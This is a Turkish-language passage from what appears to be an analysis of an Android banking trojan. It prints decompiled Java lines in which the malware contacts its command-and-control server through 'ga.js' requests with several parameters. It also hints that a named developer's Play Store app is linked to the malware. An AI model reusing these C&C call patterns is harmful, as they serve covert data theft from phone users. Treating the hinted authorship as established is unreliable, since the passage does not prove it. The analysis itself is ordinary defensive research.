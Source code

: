```java
		result = com.googleandroid.listener.a.a.a(com.googleandroid.listener.tasks.h.b, "ga.js?d=1"); // (Method@765)
		result = com.googleandroid.listener.helpers.JSONHttpClient.a(com.googleandroid.listener.tasks.h.b, "ga.js?d=1"); // (Method@791)
		v4 = "ga.js?m=1"; // (String@933)
		result = com.googleandroid.listener.a.a.a(com.googleandroid.listener.tasks.i.a, "ga.js?m=1"); // (Method@765)
		result = com.googleandroid.listener.helpers.JSONHttpClient.a(com.googleandroid.listener.tasks.i.a, "ga.js?m=1"); // (Method@793)
		v3 = "ga.js?l=1"; // (String@932)
		result = com.googleandroid.listener.a.a.a(com.googleandroid.listener.tasks.i.a, "ga.js?l=1"); // (Method@765)
		result = com.googleandroid.listener.helpers.JSONHttpClient.a(com.googleandroid.listener.tasks.i.a, "ga.js?l=1"); // (Method@793)
```

Göründüğü üzere C&C ile iletişime geçerken kullanılan bazı parametreler bulunmaktadır.
- e,
- m,
- d,
- l,
- ds,
- ca

kodları incelediğimizde sunucu IP adresi, bazı türkçe fonksiyon isimleri ve parametrelere ulaşabilmekteyiz.

Ayrıca kod içerisinde geçen 
![](<imgs/interesting-strings.png>)
```java
localIntent4.setAction("com.muratgokce.services.ServiceStart");
```
**muratgokce** ismini aratinca çıkan [kaynak] ise olayı biraz daha ilginç hale getirmektedir.

[**Tinba**]: https://www.bilgiguvenligi.gov.tr/zararli-yazilimlar/tinba-zararli-yazilim-analizi.html
[**cryptolocker**]: https://www.bilgiguvenligi.gov.tr/zararli-yazilimlar/guncel-cryptolocker-saldirisina-dikkat.html
[**forbes**]: http://www.forbes.com/sites/gordonkelly/2014/03/24/report-97-of-mobile-malware-is-on-android-this-is-the-easy-way-you-stay-safe/
[**DRWEB**]: http://news.drweb.com/show/?i=9489&lng=en&c=5
[**CEPWAP**]: http://www.oguzhantopgul.com/2014/09/android-hesperbot-malware-analysis.html 
[**virscan.org**]: http://r.virscan.org/report/7f94869db35f883f556b832d7bf75a3f
[kaynak]: https://play.google.com/store/apps/details?id=tr.com.muratgokce.spycamera&hl=tr
[Komuta Kontrol]: https://blogs.rsa.com/ibanking-mobile-bot-source-code-leaked/